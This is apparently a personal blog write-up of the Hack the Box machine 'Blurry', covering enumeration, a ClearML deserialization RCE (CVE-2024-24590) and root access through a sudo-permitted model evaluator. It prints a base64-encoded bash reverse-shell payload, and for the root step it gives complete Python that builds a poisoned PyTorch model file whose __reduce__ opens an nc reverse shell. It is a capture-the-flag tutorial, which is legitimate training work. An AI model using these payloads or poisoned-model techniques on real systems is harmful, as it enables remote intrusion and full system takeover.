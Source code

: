```yaml
---
draft: false
title: "Hack the Box #5 - Blurry w/o Metasploit"
date: 2024-08-14
author: William
category:
  - Tech
tags:
  - Hacking
  - Security
cover:
  image: hack_the_box_5_blurry.png
  alt: hack_the_box_5_blurry.png
---
```


I woke up this morning breathed in that sweet morning air. I could feel it, to days the day ima hack a box and come to the sun setting I had pwned this box by getting an AI model to execute a reverse shell that got me root! Here we go

![ChewingStraw](https://media4.giphy.com/media/v1.Y2lkPTc5MGI3NjExamtrYXIyajJ5NjFtNzRzc25mdmQzbTFsNG9xamtqbHJpZXZudXhydyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/lqqB7E9CdSG76/200.gif#center)

---
## Enumeration
What can nmap tell us about this target

```bash
└─$ nmap -A -p- 10.10.11.19 -oN nmap.scan
# Nmap 7.94SVN scan initiated Sat Aug 10 11:14:11 2024 as: nmap -A -p- -oN nmap.scan 10.10.11.19
Nmap scan report for 10.10.11.19
Host is up (0.046s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   3072 3e:21:d5:dc:2e:61:eb:8f:a6:3b:24:2a:b7:1c:05:d3 (RSA)
|   256 39:11:42:3f:0c:25:00:08:d7:2f:1b:51:e0:43:9d:85 (ECDSA)
|_  256 b0:6f:a0:0a:9e:df:b1:7a:49:78:86:b2:35:40:ec:95 (ED25519)
80/tcp open  http    nginx 1.18.0
|_http-server-header: nginx/1.18.0
|_http-title: Did not follow redirect to <http://app.blurry.htb/>
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at <https://nmap.org/submit/> .
# Nmap done at Sat Aug 10 11:14:36 2024 -- 1 IP address (1 host up) scanned in 25.45 seconds

```

Lets add `app.blurry.htb` to our hosts file and run some subdomain enumeration tool to see what else is out there


```bash
└──╼ [★]$ ffuf -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://10.10.11.19 -H "HOST: FUZZ.blurry.htb" -ac -o ffuf.scan

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       
_______________________________________________

...
app                     [Status: 200, Size: 13327, Words: 382, Lines: 29, Duration: 11ms]
files                   [Status: 200, Size: 2, Words: 1, Lines: 1, Duration: 21ms]
chat                    [Status: 200, Size: 218733, Words: 12692, Lines: 449, Duration: 56ms]
```


So we have `app` , `files` and `chat` as subdomains. Adding these to the hosts file lets enumerate each of these for their sub directories.

I went ahead and dug around with both gobuster and manually exploring. When going to `app.blurry.htb` we get taken to an webapp and are prompted to create an account. Which I do, called `Deez` and poke around.

---
## Exploitation
In the investigation we find the `app` subdomain is running an app called **clear.ml** and with some trusty googling we find this vuln [https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit](https://github.com/xffsec/CVE-2024-24590-ClearML-RCE-Exploit) to execute this script first we need to create credentials on our clear.ml account. 
![keys](https://i.imgur.com/457thdA.png#center)

Once that is done and the subdomain `api` is added to the hosts file we configure the exploit.
```bash
└──$ python3 exploit.py                                                    
                                           
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⣠⣴⣶⣾⣿⣿⣿⣷⣶⣤⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⢀⣴⣿⣿⣿⡿⠿⠟⠛⠻⠿⣿⣿⣿⡷⠆⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⢠⣿⣿⣿⠟⠁⠄⠄⠄⠄⠄⠄⠄⠉⠛⠁⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢠⣿⣿⣿⠃⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⢸⣿⣿⡇⠄⠄⠄⠄⣠⣾⠿⢿⡶⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⢸⣿⣿⣿⣿⡇⠄⠄⠄⠄⣿⡇⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⣿⣿⣿⣿⣷⡀⠄⠄⠄⠙⠿⣶⡾⠟⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠘⣿⣿⣿⣿⣷⣄⠄⠄⠄⠄⠄⠄⠄⠄⠄⣀⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠘⢿⣿⣿⣿⣿⣷⣦⣤⣀⣀⣠⣤⣴⣿⣿⣷⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠙⢿⣿⣿⣿⣿⣿⣿⣿⣿⣿⠿⠛⠁⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠈⠛⠻⠿⣿⣿⡏⠉⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                     
    ⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄⠄                                                      
CVE-2024-24590 - ClearML RCE
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 1
[+] Creating a copy of clearml.conf in clearml.conf.bak
[+] Initializing ClearML
[i] Press enter after pasting the configuration
...
Web App: http://app.blurry.htb
API: http://api.blurry.htb
File Store: http://files.blurry.htb
...
ClearML setup completed successfully.

```

Now we are primed for attack and it is time to pounce 

![pounce](https://media0.giphy.com/media/v1.Y2lkPTc5MGI3NjExb3JleDdvcjRmcXIweGN0bXkzajQwZ3BzaW1ja2x4MWV0MGQ3eWUwaiZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/26h0qOq4LxV8YcDKw/giphy.gif#center)


```bash
└─$ python3 exploit.py
...
============================
[1] Initialize ClearML
[2] Run exploit
[0] Exit
[>] Choose an option: 2
[+] Your IP: 10.10.14.62
[+] Your Port: 1234
[+] Target Project name Case Sensitive!: Black Swan
[+] Payload to be used: echo YmFzaCAtYyAiYmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42Mi8xMjM0IDA+JjEi | base64 -d | sh
[?] Do you want to start a listener on 1234? (y/n): y
[+] pwncat listener started on 1234
[i] This exploit requires that another user deserializes the payload on their machine.
ClearML Task: created new task id=3df2aa3a66144bbbbdba441a8689b4ed
ClearML results page: http://app.blurry.htb/projects/116c40b9b53743689239b6b460efd7be/experiments/3df2aa3a66144bbbbdba441a8689b4ed/output/log
[i] Please wait...
ClearML Monitor: GPU monitoring failed getting GPU reading, switching off GPU monitoring
bash: cannot set terminal process group (220630): Inappropriate ioctl for device
bash: no job control in this shell
jippity@blurry:~$ 

```

And after a little wait for the ML model to execute we get a lovely call home, which leads us nicely to the first user flag and poking around the user profile we find a SSH key which helps us keep persistence on our target.
```bash
jippity@blurry:~$ cat user.txt
================ USER_FLAG ================
jippity@blurry:~$ cat /.ssh/id_rsa
=============== PRIVATE_KEY ===============
_________________________________________
└─$ ssh -i id_rsa jippity@10.10.11.19
jippity@blurry:~$ 
```

---
## Privilege Escalation

With persistence achieved it is time to escalate to root. Transferring over linpeas using our newly acquired private key we can get a broadview of what vectors to escalation we have available to us. 

```bash
└─$ scp -i /home/kali/.ssh/id_rsa ./linpeas.sh jippity@10.10.11.19:~/
_______________________________________________________________________
jippity@blurry:~$ linpeas.sh
...
User jippity may run the following commands on blurry:
    (root) NOPASSWD: /usr/bin/evaluate_model /models/*.pth
...
```

Looking through linpeas findings one thing stands out as interesting. There is a program `/usr/bin/evaluate_model` that when executed will be run as root and it doesn't require a password to do so. Taking a closer look at the script in question it looks to only take .pth files.
A .pth file is a compiled AI model file that is used by [PyTorch to save and load models](https://pytorch.org/tutorials/beginner/saving_loading_models.html). So in theory if we can create our own malicious model we can get this script to execute the malicious model and use it to escalate.

Here is the script ill be using:
```python
import torch
import torch.nn as nn
import os

class MaliciousModel(nn.Module):
    # PyTorch's base class for all neural network modules
    def __init__(self):
        super(MaliciousModel, self).__init__()
        self.dense = nn.Linear(10, 1)
    
    # Define how the data flows through the model
    def forward(self, abdulrahman): # Passes input through the linear layer.
        return self.dense(abdulrahman)
   
    # Overridden __reduce__ Method
    def __reduce__(self):
        cmd = "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.46 6060 >/tmp/f"
        return os.system, (cmd,)

# Create an instance of the model
malicious_model = MaliciousModel()

# Save the model using torch.save
torch.save(malicious_model, 'callhome.pth')
```

**Explanation of the Script**:

- **`MaliciousModel` Class**: Defines a simple neural network model.
- **`__reduce__ Method`**: Overridden to include a command that creates a reverse shell using netcat.
- **`torch.save` Function**: Saves the model to a file named `.callhome.pth`.

Pushing this onto the box and we pass the malicious model to the `evaluate_model` script as follows and wait...
```bash
jippity@blurry:~$ sudo /usr/bin/evaluate_model /models/callhome.pth 
```

Looking to our netcat awaiting in the wings with baited breath... SHELL!!!
```Bash
# whoami
root
# cat /root/root.txt
================= ROOT_FLAG =================
```

And that is root baby! WINNING!!! And I get my [rubber stamp of approval](https://www.hackthebox.com/achievement/machine/1695260/605) from Hack the Box as a reward.  Now that I can say with confidence I have hacked an AI model I'm going to go touch some grass :D

![touchGrass](https://media3.giphy.com/media/v1.Y2lkPTc5MGI3NjExdWt0Z3Z5a2R6ODhpM2h1azVqNTExazE1MHVqMms5amZzbGwzdzBsbCZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/VlYBM5zERKWD5ONSzi/giphy.gif#center)



